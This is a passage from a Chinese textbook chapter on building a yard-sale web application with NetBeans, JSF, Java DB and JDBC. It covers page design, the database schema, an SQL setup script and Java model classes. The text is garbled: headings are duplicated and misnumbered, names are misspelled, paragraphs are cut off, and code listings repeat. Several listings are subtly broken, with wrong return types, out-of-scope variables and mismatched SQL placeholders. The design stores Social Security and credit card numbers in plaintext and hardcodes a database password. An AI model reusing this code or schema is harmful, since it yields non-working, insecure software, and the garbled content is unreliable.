门户的主体包含两个超链接，将买家和卖家重定向到相应的服务页面。为这些链接定义了级联样式表 (CSS)。例如，当鼠标移动在链接上时，两个链接的字体和颜色都会改变，以吸引用户。

### 8.3.1.2 卖家页

卖家页 (`Seller.jsp`) 的 GUI 设计如图 8.3.3 所示。卖家页也由两部分组成：动态广告横幅和主体。它允许卖家提供跳滩拍卖活动的信息。该页面使用 Visual Web Pack 服务器控件构建，例如文本框、系统项目错误消息面板和日期/时间选择框。NetBeans Visual Web Pack 允许设计人员方便地拖放控件来完成 GUI 设计。这些控件默认实现了许多实用功能。例如，页面中任何组件抛出的任何异常，如果未被任何用户代码专门处理，将很好地排序并显示在系统错误消息面板中。文本框控件（不同传统的 HTML 文本输入）提供了数据类型转换和各种验证方法（如正则表达式验证器）。


### 8.3.1.3 发布物品的页面

`PostItem.jsp` 负责上传每个出售物品的信息。一旦卖家点击 `Seller.jsp` 中的提交按钮，卖家就会被重定向到 `PostItem.jsp` 页面。`PostItem.jsp` 的 GUI 设计如图 8.3.4 所示。该页面允许卖家将每个物品的图像上传到数据库。一旦物品保存，它将自动显示在页面底的数据表中。数据表是 Visual Web Pack 提供的服务器控件。通过极少的代码工作，程序员就可以使用数据表控件方便地检索和显示数据。在实现 `PostItem.jsp` 时，你将体会服务器控件的力量和简单性。另一方面，在买家页的设计中，你将体会使用 Java Servlets 实现的灵活和丰富的用户界面。你将根据项目需求在正确的时间选择正确的技术。



图 8.3.5 地图 IDE 用于

### 8.3.1.4 买家页

`Buyer.jsp` 可能是项目中最为复杂的页面。与其他页面类似，`Buyer.jsp` 由两部分组成：广告横幅（这是一个 JavaServer Faces Web 页面片段）和主体（由一个名为 `MapIDE.html` 的 HTML 文件组成）。`MapIDE.html` 的 GUI 设计如图 8.3.5 所示。`MapIDE.html` 使用客户端 JavaScript 技术，并依赖 Dojo 框架和 Google Maps 服务来提供惊艳的视觉效果。

如图 8.3.5 左侧所示，`MapIDE.html` 使用客户端 JavaScript 技术，并依赖 Dojo 框架和 Google Maps 服务来提供惊艳的视觉效果。

### 8.3.2 数据库设计

在 `BigPeachYardSaleExpress` 的需求中，下一步是完成其高级设计。通常情况下，Web 应用程序的高级设计由两个部分组成：(1) 设计图形用户界面 (GUI) 和 (2) 设计数据库模式。这两个部分将在接下来的两个节中介绍。

高级设计的第二步是确定数据库。在研究需求后，小组决定包含以下表：

- `TBL_YALE` 用于存储销售活动（例如位置和时间）
- `TBL_ITEM` 用于存储物品
- `TBL_TRANSACTION` 用于交易信息

#### 表 8.3.1 TBL_YARDSALE 的设计

| 数据列 | 数据类型 | 说明 |
|---|---|---|
| ID | VARCHAR(40) | 标识符，10 个数字的拼接（每个 <128）。主键。 |
| STREETADDR | VARCHAR(30) | 街道地址 |
| CITY | VARCHAR(20) | 城市名 |
| STATE | CHAR(2) | 2 位字母的美国州名 |
| ZIPCODE | VARCHAR(10) | 5 位或 9 位邮编 |
| FNAME_HOST | VARCHAR(20) | 卖家的名字 |
| LNAME_HOST | VARCHAR(20) | 卖家的姓 |
| SSN | CHAR(9) | 9 位社会安全号码 |
| OPENTIME | TIME | 销售活动开始时间 |
| CLOSESTIME | TIME | 销售活动结束时间 |
| SALEDATE | DATE | 销售活动日期 |
| DESCRIPTION | VARCHAR(200) | 卖者的任何额外注释 |

### 8.4 里程碑 1：使用 NetBeans 创建 Web 项目和数据库

在本节中，我们将首先给出技术细节的概述。然后你将进行动手实践。`Milestone1.zip` 的完整实现可以在本书的网站上获取。

## 8.4 里程碑 1：使用 NetBeans 创建 Web 项目和数据库

### 8.3.2 TBL_ITEM 设计
| 数据列 | 数据类型 | 描述 |
| --- | --- | --- |
| ID | VARCHAR(40) | 物品的标识。主键。 |
| SALEID | VARCHAR(40) | 对应销售事件的标识。外键。 |
| PRICE | DECIMAL(7) | 物品价格。 |
| DESCRIPTION | VARCHAR(200) | 卖家的额外备注。 |
| KEYWORDS | VARCHAR(30) | 搜索关键词。 |
| IMAGE | BLOB | 物品缩略图。 |
| STATUS | INTEGER | 表示物品状态的整数代码。 |
| LASTLOCKTIME | TIMESTAMP | 物品最后锁定的时间。 |
| TRANSACTIONTOKEN | VARCHAR(40) | 锁的所有者。外键。 |

### 8.3.3 TBL_TRANSACTION 设计
| 数据列 | 数据类型 | 描述 |
| --- | --- | --- |
| TRANSACTIONTOKEN | VARCHAR(40) | 交易标识。 |
| FNAME_BUYER | VARCHAR(20) | 买家名。 |
| LNAME_BUYER | VARCHAR(20) | 买家姓。 |
| CARDNUMBER | VARCHAR(15) | 交易时使用的信用卡号。 |
| TOTALAMOUNT | DECIMAL(7) | 购买总额。 |

手动创建表并定义关系，以及 (2) 直接使用 SQL 脚本创建数据库。在 `BigPeachYardSaleExpress` 项目中，选择了方法 2，因为它简单简单且具有良好的移植性。

列表 8.4.1 显示了用于建立数据库的完整 SQL 脚本。该脚本包含三个部分。第一部分添加数据库用户并授予访问权限。部分 1.1 调用系统过程 `SYSCS_SETDATABASE_PROPERTY` 添加一个名为 `derby.user.bigpeach` 的用户，该用户的密码为：

```sql


## 8.4.1 初始化数据库的 SQL 脚本

### 1. 添加数据库用户

#### 1.1 创建用户

创建密码为 `'convenience'` 的用户 `'bigpeach'`。

```sql
CALL SYCS_UTIL.SYCS_SET_DATABASE_PROPERTY(
  'derby.user.bigpeach', 'convenience'
);
```

#### 1.2 授予用户完全访问权限

```sql
CALL SYCS_UTIL.SYCS_SET_DATABASE_PROPERTY(
  'derby.database.fullAccessUsers',
  SYCS_UTIL.SYCS_GET_DATABASE_PROPERTY('derby.database.fullAccessUsers')
  || 'derby.user.bigpeach'
);
```

`convenience`。然后，它将新账户作为完全访问用户添加。

### 2. 删除旧表

如果存在旧表，则将其删除。

> 注意：这会移除所有旧数据！
>
> 注意：如果脚本是第一次执行，将生成失败信息，因为初始表不存在！只需在首次运行时忽略这些错误。

```sql
DROP TABLE tbl_item;
DROP TABLE tbl_transaction;
DROP TABLE tbl_yardsale;
```

### 3. 创建三个表

```sql
CREATE TABLE tbl_yardsale(
  ID VARCHAR(40) PRIMARY KEY,
  StreetAddr VARCHAR(30),
  City VARCHAR(20),
  State CHAR(2),
  Zipcode VARCHAR(10),
  FName_Host VARCHAR(20),
  LName_Host VARCHAR(20),
  SSN CHAR(10),
  OpenTime TIME,
  CloseTime TIME,
  Date DATE,
  Description VARCHAR(220)
);
```

```sql
CREATE TABLE tbl_transaction(
  TransactionToken VARCHAR(40) PRIMARY KEY,
  FName_Buyer VARCHAR(20),
  LName_Buyer VARCHAR(20),
  CardNumber VARCHAR(15),
  TotalAmount DECIMAL(7,2)
);
```

```sql
CREATE TABLE tbl_item(
  ID VARCHAR(40) PRIMARY KEY,
  SaleID VARCHAR(40),
  Price DECIMAL(7,2),
  Description VARCHAR(200),
  Keywords VARCHAR(30),
  Image BLOB,
  Status INT,
  LastTime TIMESTAMP,
  TransactionToken VARCHAR(40)
);

ALTER TABLE tbl_item
ADD CONSTRAINT tbl_itemFK
FOREIGN KEY (SaleID)
REFERENCES tbl_yardsale(ID);

ALTER TABLE tbl_item
ADD CONSTRAINT tbl_itemFK2
FOREIGN KEY (TransactionToken)
REFERENCES tbl_transaction(TransactionToken);
```

脚本的第 2 部分用于删除所有现有表，以防执行脚本时清空旧数据库内容并创建一个新的空白数据库。第 3 部分使用 `CREATE TABLE` 语句创建表。它创建了三个表：`TBL_YARDSALE`、`TBL_TRANSACTIONS` 和 `TBL_ITEM`。最后，使用 `ALTER` 语句定义外键以添加约束。`TBL_ITEM` 有两个外键，一个用于 `SaleID`，另一个用于 `TransactionToken`。

现在 SQL 脚本的逻辑已经一目了然。下一步是探索如何创建一个 Visual Web Pack 项目。具体操作将在动手实践中说明。

## 动手实践

在接下来的过程中，你将通过动手实践创建 BigPeachYardSaleExpress 项目及其数据库。请遵循说明操作。假设你已经安装了 NetBeans 6.0。你应该安装了 Java 版本。

1. 启动 NetBeans 6.0。点击 File（文件）菜单，然后点击 New Project（新建项目）。将弹出一个对话框。
2. 设置项目属性。首先，输入项目名称为“PeachSaleExpress”。点击 Browse（浏览）按钮指定位置。然后选择 Web Application（Web）作为类别，选择 Java EE 5 作为版本。
3. 选择 GlassFish 作为服务器，然后点击 Next（下一步）按钮。然后项目成功创建。
4. 创建一个存放 SQL 脚本的文件夹。在 NetBeans 窗口的左侧，有一个三个选项卡的项目面板：Projects、Files 和 Services。Projects 选项卡显示项目结构。点击 Files 选项卡，然后右键点击根节点（即 PeachSaleExpress），选择 New，选择 Folder。将文件夹命名为 `DBScripts` 并点击 Finish。
5. 创建 SQL 文件。右键点击 `DBScripts` 文件夹，选择 New，然后选择 Empty File（空文件）。文件名命名为 `initDB.sql`。将列表 8.4.1 中的代码输入 `initDB.sql`。
6. 点击 NetBeans 的 Tools（工具）菜单，选择 Java DB Database，然后点击 Create Database（创建数据库）。弹出对话框询问数据库名称、用户名和密码。使用 `bigpeach` 作为数据库名称，用户名和密码分别为 `bigpeach` 和 `convenience`。
7. 回到 `initDB.sql` 的编辑器窗口。点击工具栏上的 Run SQL File（运行 SQL 文件）按钮或按 Ctrl+Shift+E 运行 `initDB.sql` 文件。系统会要求你指定数据库连接。点击下拉选择框，选择你创建的 `bigpeachdb`。第一次执行将弹出多条报告尝试删除不存在表的错误信息。你可以忽略这些错误信息。
8. 验证数据库是否已初始化。点击 Services 选项卡，展开 `bigpeachdb` 节点，然后展开表节点；你应该能看到已经创建的三个数据表。

## 8.5 里程碑 2：门户页面与级联样式表

连接 `peachdb` 节点并选择 connect。系统会弹出一个对话框要求你输入用户名和密码。输入 `bigpeach` 作为用户名，`convenience` 作为密码。一旦建立连接，你就可以查看数据库的表结构和内容。有时，NetBeans 可能无法自动刷新数据库结构。在这种情况下，你必须进入 Tools（工具）菜单，选择 Java DB Database 选项，并选择重启数据库以更新。

本节构建了项目的第一个网页，即 BigPeachYardSaleExpress.com 的门户页。它将买家和卖家重定向到 `buyer.jsp` 和 `seller.jsp`。门户页的结构非常简单：顶部是一个头部（广告横幅），主体由两个用于跳转的超链接组成。在本节中，你将接触到许多实用技术，例如：级联样式表（CSS）、使用 Visual Web Pack 创建页面和布局、使用 HTML 表格手动布局、高级页面导航编排以及页面片段（Page Fragment）的创建与重用。

### 8.5.1 页面导航

Visual Web Pack 提供的一个强大功能是名为“页面导航”的工具。使用页面导航，开发者可以定义 Web 应用的高层架构，例如网页的哪个组件可以引导另一个页面，以及在什么条件下引导。规范可以自动映射到框架生成的源代码中。

接下来，你将首先创建 `Page.jsp`（项目的起始页），然后在页面中引入两个超链接，最后将这些链接重定向到项目中的两个页面。

## 动手实践

1. 确保 `BigPeachYardSaleExpress` 项目已打开。
2. 点击项目页上的 Project 标签，展开 Web Pages 节点，并双击 `Page.jsp`。页面打开后，页面及其控件的属性将显示在 NetBeans 窗口的右侧，如图 8.5.1 所示。你可以通过直接修改 JSP 页面的源代码来调整网页及其控件的属性（也称为特性）。要直接修改源代码，点击 NetBeans 主窗口的 JSP 标签。默认情况下，主窗口处于 Design（设计）模式，允许你查看页面的视觉设计；而 JSP 窗口则允许你直接编辑源码。
3. 在屏幕右侧查看 `Page1.jsp` 的属性列表。如图 8.5.1 所示更改 Page Layout（页面布局）。流式布局（Flow layouts）安排网页控件相对于其所有或兄弟控件的位置。当容器的布局为流式布局时，JavaFaces（JSF）框架会自动安排容器内控件的布局。为了实现类似的效果，你也可以使用 HTML 表格，将在后续章节介绍。
4. 找到 Properties 窗口旁的 Palette 窗口（在 NetBeans 窗口的右侧），如图 8.5.2 所示。如果找不到，点击 NetBeans 的 Window 菜单并选择 Palette。Palette 窗口显示 Visual Web Pack 中可用的所有服务器控件。
5. 在 Palette 窗口中找到 Layout 分类，并将 Page Fragment 控件拖入页面。点击 Create Fragment 按钮并创建一个名为 `Header` 的新页面片段。页面片段可以嵌入到多个网页中。它是将广告横幅置于项目每个页的理想工具。稍后将编辑页面片段的内容。此步骤如图 8.5.2 所示。
6. 在 Palette 窗口中找到 Basic 分类，并将两个超链接拖入页面。将两个链接的 `id` 属性分别设置为 `hyperlinkBuyer` 和 `hyperlinkSeller`。将两个链接的 `text` 属性分别设置为 `Buyer` 和 `Seller`。



7. 创建页面导航设计。在 `Page1.jsp` 的编辑器窗口中，右键点击并选择 Page Navigation。将项目的导航方案，如图 8.5.3 所示。目前设计中有一个页面（`Page1.jsp`）。在设计区域任意位置右键点击并选择 New File。对话框将向你展示如何选择文件类型。点击 JavaScript Faces 分类，然后选择 Visual Web JS Page 作为文件类型，如图 8.5.3 所示。然后点击 Next 按钮并将新页面命名为 `Buyer`。NetBeans 可能会跳转到新页面 `Buyer.jsp`；你可以点击 `faces-config.xml` 标签返回页面导航设计。同样，创建一个名为 `Seller` 的新页面。单击 Page 1 节点，你将看到你在第 6 步创建的两个链接。从 `hyperlinkBuyer` 画一条箭头线指向 `Buyer.jsp`，并从 `hyperlinkSeller` 拖另一个链接到 `Seller.jsp`。稍后，你会发现两个超链接的 URL 属性已自动设置。此步骤参考图 8.5.3。
8. 按 F11 编译项目，然后按 F6 运行项目。点击买家和卖家链接，验证浏览器是否已重定向到正确的位置。



图 8.5.3：页面导航



图 8.5.4：页面片段结构

### 8.5.2 使用 HTML 表格布局头部片段

接下来你将设置头部片段的布局。你将尝试使用 HTML 表格。虽然不像 Visual Web Pack 中视觉控件的拖拽那样方便，但 HTML 表格在表达复杂设计方面提供了更大的自由度。页面片段的结构如图 8.5.4 所示。

整个页面片段的宽度将为 1000 像素，这也是数据库所有可见内容的宽度。

## 8.5 阶段碑 2：门户页面与级联样式表

`PortalLink` 类定义了超链接的边界样式和字体大小。`A:hover` 类规定当鼠标悬停在超链接上时，其背景颜色将发生变化。

## 实践操作

1. 在项目面板格中展开 Web 页面，找到 resources 节点，然后双击 `stylesheet.css` 节点。将代码列表 8.5.2 中的代码追加到文件末尾。另一种方法是使用 NetBeans 提供的 CSS 编辑器手动添加样式类。
2. NetBeans 有时不会自动在服务器上重新部署 CSS。点击项目面板格中的 Services 选项卡，选择 HTTP server（默认是 GlassFish2），然后右键点击并选择 restart 以使 CSS 生效。
3. 再次点击 Projects 选项卡返回项目结构。
4. 打开 `Page1.jsp`，点击 Design 选项卡查看视觉化设计。选择两个超链接控件，并将它们的属性 `styleClass` 设置为 `PortalLink`，如图 8.5.7 所示。你必须确保 `PortalLink` 类出现在 Available Classes 中。如果它不存在，你必须重新编译项目并重启 GlassFish 服务器（在项目面板格的 Services 选项卡中）以确保。

## 第 8 章 Ajax 案例研究


```html
<table width="800px" class="MainTable" align="center">
  <tr>
    <td colspan="2">
      <div width="100%">
        <jsp:directive.include file="Header.jsp"/>
      </div>
    </td>
  </tr>
  <tr>
    <td colspan="2" height="100px"></td>
  </tr>
  <tr>
    <td width="50%" align="center">
      <webuijsf:hyperlink
        actionExpression="#{Page1.hyperlinkBuyer}"
        binding="#{Page1.hyperlinkBuyer}"
        id="hyperlinkBuyer"
        styleClass="PortalLink"
        text="Buyer"/>
    </td>
    <td width="50%" align="center">
      <webuijsf:hyperlink
        actionExpression="#{Page1.hyperlinkSeller_action}"
        binding="#{Page1.hyperlinkSeller}"
        id="hyperlinkSeller"
        text="Seller"/>
    </td>
  </tr>
</table>
```

**列表 8.5.3**

`Page1.jsp` 的表格布局

CSS 已更新。有时重启 NetBeans 可能有所帮助。你必须点击样式类选择对话框中的“>”按钮，使 `PortalLink` 出现在 Selected classes 中。

5. 现在通过点击 Projects 选项卡中的相应节点打开 `Header.jsp`。点击编辑器的按钮，你将修改 `Header.jsp` 的内容。将列表 8.5.3 的代码输入 `webuijsf:form` 元素中（即用 `<webuijsf:form>` 和 `</webuijsf:form>` 标签之间的代码替换为列表 8.5.3 的内容）。

6. 按 F6 运行项目，门户页面应该像图 8.5.8 所示。



## 8.6 阶段碑 3：卖家页面与 JavaScript Faces (JSF)


本节介绍了令人兴奋的 JavaServer Faces (JSF) 技术。你将使用 JSF 构建 `Seller.jsp` 为跳蚤活动上传信息。将处理数据库的各种技术，例如 JDBC 和 JSF 数据表。

`Seller.jsp` 创建了一个跳蚤活动并在 `TBL_YARDSALE` 表中插入一条新记录。每个跳蚤活动都有唯一的 ID（标识符），它由 10 个三位数组成序列。ID 的结果状态空间约为 $10^{10}$。根据统计学理论，在随机生成 $10^{10}$ 个 ID 后，几乎不会发生碰撞。在实践中，你可以安全地为新记录随机生成 ID。

列表 8.6.1 展示了 `ID.java` 的源码。它定义了 `ID` 类提供的一组基本函数。`ID` 类有一个名为 `valueLength` 的静态属性，它定义了 ID 中自然数的数量。由于 `valueLength` 被定义为常量整数 10，它表示一个 ID 由 10 个自然数组成。这些自然数的实际值存储在名为 `value` 的数组中。`ID` 的构造函数使用 Java API 提供的 `Random` 类初始化数组。每个随机数的值范围在 0 到 127 之间；因此，每个数字可以使用 1 字节表示。`toString()` 方法转储 ID 的内容。`equals()` 方法通过查看数组 `value` 中的每个数字来检查两个 ID 是否相等。最后，该类被定义为实现 `Serializable` 接口，以便以二进制数组的形式存储在数据库中。

为了建模 `TBL_YARDSALE` 表，定义了一个名为 `YardSale` 的类，如列表 8.6.2 所示。`YardSale` 类具有数据成员。

## 第 8 章 Ajax 案例研究

```java
package YSEModel;

import java.io.Serializable;
import java.util.Random;

public class ID implements Serializable {

    protected static final int valueLength = 10;

    protected byte [] value = new byte[valueLength];

    /** 创建一个 ID 实例 */

    public ID() {

        Random rand = new Random();

        for(int i=0; i<valueLength; i++){

            value[i] = (byte) rand.nextInt(128);

        }

    }

    public byte getValue() {return value;}

    public String toString() {

        String toRet = "";

        for(int i=0; i<valueLength; i++){

            toRet += String.valueOf(value[i]);

        }

        toRet += i<valueLength-1 ? "-" : "";

        return toRet;

    }

    public boolean equals(Object obj) {

        if (!(obj instanceof ID)) return false;

        ID other = (ID) obj;

        for(int i=0; i<valueLength; i++){

            if(this.value[i] != other.value[i]) return false;

        }

        return true;

    }

}
```

**列表 8.6.1**

`ID.java` 的源码

为了建模 `TBL_YARDSALE` 表，定义了一个名为 `YardSale` 的类，如列表 8.6.2 所示。`YardSale` 类具有数据成员来建模 `TBL_YARDSALE` 的每一列。该类提供了访问函数来获取其数据成员的值（如列表 8.6.2 所示），例如，`fName` 用于名字，`streetAddr` 用于地址，以及设置数据的变器函数。当创建一个 `YardSale` 对象时，使用列表 8.6.1 中提供的随机数实例化 `id`。该类最重要的函数是 `persist()` 函数，它模拟了。

## 8.6 阶段碑 3：卖家页面与 JavaScript Faces (JSF)

```java
package YSEModel;

import java.sql.Connection;
import java.sql.Date;
import java.sql.PreparedStatement;
import java.sql.SQLException;
import java.sql.Time;

public class YardSale {

    protected ID id;
    protected String fName;
    protected String lName;
    protected String streetAddr;
    protected String city;
    protected String state;
    protected String zip;
    protected String SSN;
    protected Time openTime;
    protected Time closeTime;
    protected Date date;
    protected String desc;

    /** 创建一个 YardSale 实例 */

    public YardSale() {

        id = new ID();

    }

    public void selfCheck() throws Exception {

        String err = "";

        // 检查字符串长度

        int[] limits = new int[] {20, 20, 30, 20, 10, 9, 200};

        String[] attrName = new String[] {"FirstName", "LastName", "StreetAddress", "City", "Zip", "SSN", "Description"};

        String[] attr = new String[]{fName, lName, streetAddr, city, zip, SSN, desc};

        for(int i=0; i<limits.length; i++) {

            if(attr[i] != null && attr[i].length() > limits[i]) {

                err += "Attribute: " + attrName[i] + " exceeds limit: " + limits[i] + "\n";

            }

        }

        if(err.length() > 0){

            throw new Exception(err);

        }

    }

    // 为了简洁省略 getters 和 setters

    public void persist() throws Exception {

        selfCheck();

        Connection conn = null;

        PreparedStatement stat = null;

        try {

            conn = Utility.getDBConnection();

            stat = conn.prepareStatement("INSERT INTO tbl_yardsale VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)");

            stat.setString(1, this.id.toString());

            stat.setString(2, this.streetAddr);

            stat.setString(3, this.city);

            stat.setString(4, this.state);

            stat.setString(5, this.zip);

            stat.setString(6, this.fName);

            stat.setString(7, this.lName);

            stat.setTimestamp(8, this.openTime);

            stat.setTimestamp(9, this.closeTime);

            stat.setDate(10, this.date);

            stat.executeUpdate();

        } catch (SQLException e) {

            e.printStackTrace();

        } finally {

            if(stat != null) stat.close();

            if(conn != null) conn.close();

        }

    }

}
```

**列表 8.6.2**

`YardSale.java` 的源码

（继续）

## 第 8 章 Ajax 案例研究

```java
// 格式检查器 ... 由读者实现

if(err.length()>0){

    throw new Exception(err);

}

// 设置所有数据属性的值

public void setValues(String fName, String lName, String streetAddr,

    String city, String state, String zip,

    String SSN, Time openTime, Time closeTime, Date date,

    String desc) throws Exception {

    this.fName = fName;

    this.lName = lName;

    this.streetAddr = streetAddr;

    this.city = city;

    this.state = state;

    this.zip = zip;

    this.SSN = SSN;

    this.openTime = openTime;

    this.closeTime = closeTime;

    this.date = date;

    this.desc = desc;

}

public void persist() throws Exception {

    selfCheck();

    Connection conn = null;

    PreparedStatement stat = null;

    try {

        conn = Utility.getDBConnection();

        stat = conn.prepareStatement("INSERT INTO tbl_yardsale VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)");

        stat.setString(1, this.id.toString());

        stat.setString(2, this.streetAddr);

        stat.setString(3, this.city);

        stat.setString(4, this.state);

        stat.setString(5, this.zip);

        stat.setString(6, this.fName);

        stat.setString(7, this.lName);

        stat.setTimestamp(8, this.openTime);

        stat.setTimestamp(9, this.closeTime);

        stat.setDate(10, this.date);

        stat.executeUpdate();

    } catch (SQLException e) {

        e.printStackTrace();

    } finally {

        if(stat != null) stat.close();

        if(conn != null) conn.close();

    }

}
```

```java
stat.setString(8,this.SSN);

stat.setTime(9,this.openTime);

stat.setTime(10,this.closeTime);

stat.setDate(11,this.date);

stat.setString(12,this.desc);

stat.execute();

conn.commit();

} catch (SQLException ex) {

  ex.printStackTrace();

  if(conn!=null) {

    conn.rollback();

    conn.close();

  }

  throw ex;

}
```

```java
public ID getID() {return id;}

public String getFName() {return fName;}

public String getLName() {return lName;}

public String getStreetAddr() {return streetAddr;}

public String getCity() {return city;}

public String getZip() {return zip;}

public String getSSN() {return SSN;}

public Time getOpenTime() {return openTime;}

public Time getCloseTime() {return closeTime;}

public Date getDate() {return date;}

public String getDesc() {return desc;}

public String getState() {return state;}
```


### 列表 8.6.2

`YardsSale.java` 源代码（续）

`YardsSale.java` 使用 JDBC 访问数据库并向数据库插入一条新记录。`persist()` 函数调用了 `Utility` 类提供的 `getDBConnection()` 函数，该类定义在列表 8.6.3 中。`getDBConnection()` 调用 `DriverManager` 来获取数据库连接（通过提供连接字符串、数据库用户帐户和密码）。

## 动手实践

1. 第一步是将 `Utility.java` 整合到项目中。在项目面板中，解压项目 `BigPeachYardsSaleExpress`，右键点击 Source（源码包），选择 New（新建），然后选择 Java Package（Java 包），并创建一个名为 `YServiceModel` 的包。

```java
package YSEModel;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;
```

```java
public class Utility {

  /** 创建 Utility 的新实例 */

  public Utility() {

  }

  public static Connection getConnection() throws SQLException {

    Connection conn = null;

    try {

      conn = DriverManager.getConnection(
        "jdbc:derby://localhost:1527/bigpeachdb",
        "bigpeach","convenience");

    } catch (SQLException ex) {

      ex.printStackTrace();

    }

    return conn;

  }

}
```

### 列表 8.6.3

`Utility.java` 源代码

2. 在项目面板中右键点击 `YSEModel`，选择 New（新建）并选择 Java Class（Java 类）。将新类命名为 `ID`。输入列表 8.6.1 中的代码（`ID.java`）。按 F11 编译代码。

3. 在项目面板中右键点击 `YSEModel`，选择 New（新建）并选择 Java Class（Java 类）。将新类命名为 `Utility`。输入列表 8.6.3 中的代码。你可能需要根据系统上数据库的配置修改实现中的 `getConnection()` 代码，以设置正确的连接字符串。要获取正确的连接字符串，点击项目面板中的 Services（服务）选项卡，展开 databases（数据库）节点，选择你正在使用的数据库并右键点击，将弹出一个对话框。选择并复制名为 Database URL 的属性值，然后将其插入 `Utility.java` 的代码中（`conn = DriverManager.getConnection` 下方的一行）。按 F11 编译代码。

## 8.6 里程碑 3：卖家页面与 JavaScript Faces（JSF）

4. 同样，创建一个名为 `YardSale` 的新 Java 类，并输入列表 8.6.2 中的代码（`YardSale.java`）。按 F11 编译。

5. 直到为止，逻辑模型的所有类都已定义。在项目面板中，展开 Web Pages（网页）节点并双击 `Seller.jsp` 打开它。你首先将服务器控件拖入页面中，并使用 HTML 表格设置布局。点击 Design（设计）选项卡以确保编辑器处于视觉编辑模式。你应该能在窗口右侧看到控件调色板。否则，点击 Window（窗口）菜单并选择 Palette（调色板）以确保调色板显示。

6. 点击编辑器内部任意处，确保页面本身被选中。在属性列表中找到 Layout（布局），将其设置为 Flow Layout（流式布局），稍后你可以使用 HTML 表格为控件定位。

7. 从 Layout 分类拖入一个 Layout Panel（布局面板）到视觉编辑器中。将其放大以占据视觉编辑器的三分之二。点击 Style（样式）属性的省略号按钮，将其背景设置为浅黄色，以便在视觉编辑器中视觉识别。

8. 将 Layout Panel 控件的 `LayoutPanel` 属性设置为 Grid Layout（网格布局），这样在面板内就可以自由调整控件的位置。

9. 如图 8.6.1 所示，拖入 label（标签）和 textbox（文本框）控件。完整的控件列表（省略标签）见表 8.6.1。


### 表 8.6.1 `Seller.jsp` 中的服务器控件

| 名字 | 控件类型 | 对应标签 |
| --- | --- | --- |
| `txtStreetAddress` | 文本字段 | 街道地址 |
| `txtCity` | 文本字段 | 城市 |
| `txtState` | 文本字段 | 州 |
| `txtZip` | 文本字段 | 邮编 |
| `txtName` | 文本字段 | 名字 |
| `txtName` | 文本字段 | 姓 |
| `txtSSN` | 文本字段 | 社会安全号 |
| `dropDownTime` | 下拉列表 | 开放时间 |
| `dropDownCloseTime` | 下拉列表 | 结束时间 |
| `calendar` | 日历 | — |
| `txtDescription` | 文本区域 | 描述（最多 200 个字符） |
| `messageGroup` | 分组 | — |
| `btnSubmit` | 按钮 | — |

10. 现在，对于每个文本字段、下拉列表、日历和文本区域，勾选 Required（必填）复选框。提交页面时这些控件不能为空。

11. 同时按下 Ctrl 和 Shift 键，并将 Street Address 拖入框中。例如，当用户忘记输入时会显示星号（`*`）。对其他标签重复此操作。

12. 接下来将设置下拉列表的默认值。右键点击第一个下拉列表并选择 Default（默认）。

## 8.6 里程：卖家页面与 JavaScript Faces（JSF）


图 8.6.2 下拉列表初始内容

13. 从 Layout 拖入页面片段并将其设置为 `Header.jsp`。

